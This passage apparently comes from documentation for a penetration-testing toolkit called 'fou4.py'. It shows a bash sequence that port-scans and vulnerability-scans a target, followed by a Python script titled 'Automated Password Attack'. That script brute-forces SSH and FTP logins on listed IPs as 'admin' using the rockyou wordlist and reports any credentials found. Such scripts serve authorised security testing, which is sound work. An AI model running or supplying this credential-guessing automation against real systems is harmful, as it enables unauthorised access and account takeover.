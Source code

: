 ```bash
echo "[*] Port scanning..."
python3 fou4.py --module network --tool port-scan --target $TARGET

# Vulnerability scan
echo "[*] Vulnerability scanning..."
python3 fou4.py --module network --tool vuln-scan --target $TARGET

# Generate report
echo "[*] Generating report..."
python3 fou4.py --module reporting --tool vuln-report --output ${WORKSPACE}_report.html

echo "[+] Assessment complete! Report: ${WORKSPACE}_report.html"
```

### Python Script: Automated Password Attack
```python
#!/usr/bin/env python3
# auto_password_attack.py

import subprocess
import sys

targets = [
    {"ip": "192.168.1.100", "service": "ssh"},
    {"ip": "192.168.1.101", "service": "ftp"},
]

wordlist = "/usr/share/wordlists/rockyou.txt"
username = "admin"

for target in targets:
    print(f"[*] Attacking {target['service']} on {target['ip']}")
    
    cmd = [
        "python3", "fou4.py",
        "--module", "password",
        "--tool", target['service'],
        "--target", target['ip'],
        "--username", username,
        "--wordlist", wordlist
    ]
    
    result = subprocess.run(cmd, capture_output=True, text=True)
    print(result.stdout)
    
    if "SUCCESS" in result.stdout:
        print(f"[+] Credentials found for {target['ip']}!")

print("[+] Attack cycle complete")
```
